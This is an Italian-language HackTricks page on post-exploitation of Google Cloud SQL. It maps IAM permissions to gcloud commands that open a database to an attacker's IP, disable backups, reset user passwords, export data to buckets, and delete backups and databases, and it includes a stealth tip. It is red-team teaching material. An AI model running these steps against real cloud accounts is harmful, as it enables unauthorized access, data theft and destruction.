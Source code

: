 # GCP - Cloud SQL Post Exploitation

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Cloud SQL

Per ulteriori informazioni su Cloud SQL controlla:

{% content-ref url="../gcp-services/gcp-cloud-sql-enum.md" %}
[gcp-cloud-sql-enum.md](../gcp-services/gcp-cloud-sql-enum.md)
{% endcontent-ref %}

### `cloudsql.instances.update`, ( `cloudsql.instances.get`)

Per connettersi ai database **è sufficiente avere accesso alla porta del database** e conoscere il **nome utente** e la **password**, non ci sono requisiti IAM. Quindi, un modo semplice per ottenere accesso, supponendo che il database abbia un indirizzo IP pubblico, è aggiornare le reti consentite e **permettere al proprio indirizzo IP di accedervi**.
```bash
# Use --assign-ip to make the database get a public IPv4
gcloud sql instances patch $INSTANCE_NAME \
--authorized-networks "$(curl ifconfig.me)" \
--assign-ip \
--quiet

mysql -h <ip_db> # If mysql

# With cloudsql.instances.get you can use gcloud directly
gcloud sql connect mysql --user=root --quiet
```
È anche possibile utilizzare **`--no-backup`** per **interrompere i backup** del database.

Poiché questi sono i requisiti, non sono completamente sicuro a cosa servano i permessi **`cloudsql.instances.connect`** e **`cloudsql.instances.login`**. Se lo sai, invia una PR!

### `cloudsql.users.list`

Ottieni un **elenco di tutti gli utenti** del database:
```bash
gcloud sql users list --instance <intance-name>
```
### `cloudsql.users.create`

Questo permesso consente di **creare un nuovo utente all'interno** del database:
```bash
gcloud sql users create <username> --instance <instance-name> --password <password>
```
### `cloudsql.users.update`

Questo permesso consente di **aggiornare l'utente all'interno** del database. Ad esempio, puoi cambiare la sua password:

{% code overflow="wrap" %}
```bash
gcloud sql users set-password <username> --instance <instance-name> --password <password>
```
{% endcode %}

### `cloudsql.instances.restoreBackup`, `cloudsql.backupRuns.get`

I backup potrebbero contenere **vecchie informazioni sensibili**, quindi è interessante controllarli.\
**Ripristina un backup** all'interno di un database:
```bash
gcloud sql backups restore <backup-id> --restore-instance <instance-id>
```
Per farlo in modo più furtivo, si consiglia di creare una nuova istanza SQL e recuperare i dati lì invece che nei database attualmente in esecuzione.

### `cloudsql.backupRuns.delete`

Questo permesso consente di eliminare i backup:
```bash
gcloud sql backups delete <backup-id> --instance <instance-id>
```
### `cloudsql.instances.export`, `storage.objects.create`

**Esporta un database** in un Cloud Storage Bucket in modo da poterlo accedere da lì:
```bash
# Export sql format, it could also be csv and bak
gcloud sql export sql <instance-id> <gs://bucketName/fileName> --database <db>
```
### `cloudsql.instances.import`, `storage.objects.get`

**Importa un database** (sovrascrivi) da un Cloud Storage Bucket:
```bash
# Import format SQL, you could also import formats bak and csv
gcloud sql import sql <instance-id> <gs://bucketName/fileName>
```
### `cloudsql.databases.delete`

Elimina un database dall'istanza db:
```bash
gcloud sql databases delete <db-name> --instance <instance-id>
```
{% hint style="success" %}
Impara e pratica AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Impara e pratica GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Supporta HackTricks</summary>

* Controlla i [**piani di abbonamento**](https://github.com/sponsors/carlospolop)!
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Condividi trucchi di hacking inviando PR ai** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos di github.

</details>
{% endhint %}
